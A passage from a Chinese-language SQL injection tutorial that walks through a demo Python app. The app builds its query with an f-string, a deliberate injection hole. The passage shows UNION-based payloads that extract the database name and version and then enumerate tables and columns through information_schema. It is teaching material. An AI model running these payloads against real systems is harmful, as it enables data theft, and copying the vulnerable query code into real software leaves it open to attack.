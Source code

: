 现在我们构造一些恶意语句，比如 `123' UNION SELECT 1, 2;#`

现在我们将执行的语句打印出来看看，对代码进行一些小改动

```bash
...
def query(username):
    with engine.connect() as con:
        query_exec = f"SELECT * FROM users WHERE username = '{username}'"
        print(query_exec)
        cur = con.execute(query_exec).cursor
        x = from_db_cursor(cur)
        return(x)
...
```

![](static/boxcnbaW15gnJc1O9Iv9WXqJxPc.png)

可以看到，实际执行的语句为

```sql
SELECT * FROM users WHERE username = '123' UNION SELECT 1, 2;#'
```

也就是说，在这个 demo 中，从数据库查询的内容会直接返回给用户，用户可以直接看到查询的内容

那我们是否可以进行一些其他的查询呢

构造语句 `123' UNION SELECT DATABASE(), @@version;#`

![](static/boxcnDeDp5yPE7W4KX9ByBl9ovh.png)

我们就能看到返回中包含了当前数据库名与当前数据库版本

如果数据库中除了 `users` 表还有其他的东西，我们是否能通过这个注入来获取呢...

构造语句 `123' UNION SELECT table_name, column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE();#`

> `information_schema` 库是一个 MySQL 内置数据库，储存了数据库中的一些基本信息，比如数据库名，表名，列名等一系列关键数据，SQL 注入中可以查询该库来获取数据库中的敏感信息。
